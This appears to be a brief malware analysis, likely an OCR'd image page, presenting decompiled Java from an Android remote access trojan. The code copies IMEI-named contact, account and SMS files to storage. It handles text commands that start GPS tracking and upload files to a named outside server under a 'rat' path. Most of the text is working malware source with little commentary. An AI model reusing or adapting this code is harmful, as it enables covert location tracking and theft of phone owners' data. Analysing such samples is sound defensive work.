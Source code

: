 ```java
    public static String _service_start(IntentWrapper intentWrapper) throws Exception {
    File file;
    _upload1.Initialize(processBA, "upload1");
    _upload2.Initialize(processBA, "upload2");
    _upload21.Initialize(processBA, "upload21");
    _upload22.Initialize(processBA, "upload22");
    _upload20.Initialize(processBA, "upload20");

      if (!File.Exists(File.getDirRootExternal(), "Android/data/" + _imei + "numbers.txt")) {
            file2 = Common.File;
            file2 = Common.File;
            file = Common.File;
            File.Copy(File.getDirAssets(), "numbers.txt", File.getDirRootExternal(), "Android/data/" + _imei + "numbers.txt");
        }
        file2 = Common.File;
        file2 = Common.File;
        if (!File.Exists(File.getDirRootExternal(), _imei + "acc.txt")) {
            file2 = Common.File;
            file2 = Common.File;
            file = Common.File;
            File.Copy(File.getDirAssets(), "numbers.txt", File.getDirRootExternal(), "Android/data/" + _imei + "acc.txt");
        }
        file2 = Common.File;
        file2 = Common.File;
        if (!File.Exists(File.getDirRootExternal(), _imei + "sms.txt")) {
            file2 = Common.File;
            file2 = Common.File;
            file = Common.File;
            File.Copy(File.getDirAssets(), "sms.txt", File.getDirRootExternal(), "Android/data/" + _imei + "sms.txt");
        }
        file2 = Common.File;
        file2 = Common.File;
        if (!File.Exists(File.getDirRootExternal(), _imei + "sms.txt")) {
            file2 = Common.File;
            file2 = Common.File;
            file = Common.File;
            File.Copy(File.getDirAssets(), "sms.txt", File.getDirRootExternal(), "Android/data/" + _imei + "sms.txt");
        }
```
# b4a.example.automessage
Here we can see a lot of commands
```java
if (_text.startsWith("getloc") && Split[1].equals(_shomare)) {
    if (!_gps.getGPSEnabled()) {
        Common.StartActivity(processBA, _gps.getLocationSettingsIntent());
    }
    _gps.Initialize("gps");
    _gps.Start(processBA, 0, Common.Density);
}
if (_text.startsWith("upload") && Split[1].equals(_shomare)) {
    uploadFilePhp = new UploadFilePhp();
    uploadFilePhp.Initialize(processBA, "bott2");
    uploadFilePhp.doFileUpload(processBA, (ProgressBar) Common.Null, (TextView) Common.Null, Split[2], "https://navidtwobottt.000webhostapp.com/rat/upload_file.php");
}
if (_text.startsWith("removeA") && Split[1].equals(_shomare)) {
    file3 = Common.File;
    file3 = Common.File;
```